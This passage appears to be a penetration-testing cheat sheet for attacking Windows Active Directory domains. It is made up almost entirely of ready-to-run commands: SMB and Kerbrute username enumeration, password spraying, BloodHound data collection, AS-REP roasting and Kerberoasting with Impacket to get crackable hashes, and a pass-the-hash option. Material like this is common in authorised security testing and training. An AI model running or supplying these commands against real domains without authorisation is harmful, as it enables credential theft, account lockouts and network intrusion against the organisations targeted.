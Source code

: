 ### NXC Get User Account Information
```
nxc smb -u '<USERNAME>' -p '<PASSWORD>' --users <DOMAIN/IP>
```

### Enumerate Potential Usernames with Kerbrute:
```
kerbrute userenum --dc <DOMAIN_CONTROLLER_IP> -d <DOMAIN> <USERNAME_LIST> | grep "VALID USERNAME" | awk '{print $NF}'
[Prints the format: <USERNAME>@<domain>]

kerbrute userenum --dc <DOMAIN_CONTROLLER_IP> -d <DOMAIN> <USERNAME_LIST> | grep "VALID USERNAME" | awk '{print $NF}' | cut -d@ -f1
[Prints just the username: <USERNAME>]
```

### Password Spray (One Password Multiple Users) with Kerbrute:
```
kerbrute passwordspray --dc <DC-IP> -d <DOMAIN> <USERNAME_LIST> '<PASSWORD>'
```

### Bloodhound Data Collection
You may have valid domain credentials but no access to a machine
```
bloodhound-python -c All -u '<USERNAME>' -p '<PASSWORD>' -d <DOMAIN>
```
You may have to provide a name server:
```
bloodhound-python -c All -u '<USERNAME>' -p '<PASSWORD>' -d <DOMAIN> -ns <DC-IP>
```

## Kerberoasting
### Impacket-GetNPUsers
This will return a hash for a user account if the account does not require preauth
```
impacket-GetNPUsers -dc-ip <DC-IP> -usersfile <USERNAME_LIST> <DOMAIN>/
```

### Impacket-GetUserSPNs
This is generally used against service accounts that have an SPN set, to get a hash that may be crackable offline
```
impacket-GetUserSPNs <domain>/<username>:<password>@<domain>
```
If you have no password, but you do have the NTLM hash, you can perform a pass-the-hash attack.
```
impacket-GetUserSPNs <domain>/<username> -hashes <NT_HASH>:<NT_HASH>
```
If you have used Impacket's `GetNPUsers` and got a hash for an account that does not have preauth required but you cannot crack the hash, you can still attempt to get SPNs by using the `--no-preauth` flag.
```
impacket-GetUserSPNs <domain>/<username>@<domain> --no-preauth
```
